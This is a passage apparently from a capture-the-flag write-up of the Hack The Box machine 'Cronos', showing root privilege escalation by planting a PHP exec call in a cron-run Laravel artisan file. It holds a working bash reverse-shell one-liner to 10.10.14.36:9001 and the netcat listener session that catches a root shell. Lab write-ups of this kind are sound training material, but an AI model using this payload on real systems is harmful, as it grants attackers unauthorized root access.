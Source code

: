 ```bash
www-data@cronos:/var/www/laravel$ cat artisan
cat artisan
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'");
```

Then, after a minute, I can get a `root` shell from a listener.

```bash
┌──(kali㉿kali)-[~/htb/cronos]
└─$ nc -nlvp 9001                        
listening on [any] 9001 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.13] 53488
bash: cannot set terminal process group (25373): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@cronos:~# whoami
whoami
root
```

I got a `root` shell.